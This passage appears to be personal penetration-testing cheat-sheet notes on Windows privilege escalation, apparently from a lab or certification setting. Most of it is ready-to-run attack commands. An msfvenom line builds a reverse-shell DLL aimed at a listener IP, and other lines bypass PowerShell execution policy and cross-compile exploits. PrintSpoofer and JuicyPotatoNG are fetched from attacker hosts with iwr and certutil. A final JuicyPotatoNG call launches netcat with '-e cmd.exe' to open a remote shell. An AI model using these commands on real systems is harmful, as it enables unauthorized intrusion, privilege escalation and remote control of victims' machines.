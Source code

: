 ```jsx
    else {"IsWow64Process call failed"}

```

so the payload which we generate will be x86:

```jsx
msfvenom -p windows/shell_reverse_tcp -f dll -o UninOldIS.dll LHOST=192.168.45.213 LPORT=443
```

### Got shitty cmd shell?

```jsx
set PATH=%SystemRoot%\system32;%SystemRoot%;
%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\powershell.exe
```

```jsx
%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass .\exploit.ps1
```

### Cross-Compile

```bash
i686-w64-mingw32-gcc 40564.c -o pwn.exe -lws2_32
```

```jsx
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

### PrintSpoofer

```jsx
iwr -uri http://10.10.137.147:8888/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
```

if error jumps during download try:

```jsx
$ProgressPreference = "SilentlyContinue"
-UseBasicParsing (required -Outfile)
```
### SeImpersonatePrivilege
### Potatoes

**JuicyPotatoNG**

```jsx
cd \Windows\Temp
certutil -urlcache -split -f http://192.168.45.234/JuicyPotatoNG.exe
.\JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami > C:\test.txt"
certutil -urlcache -split -f http://192.168.45.234/nc64.exe
.\JuicyPotatoNG.exe -t * -p "C:\Windows\Temp\nc64.exe" -a "192.168.45.234 443 -e cmd.exe"
```
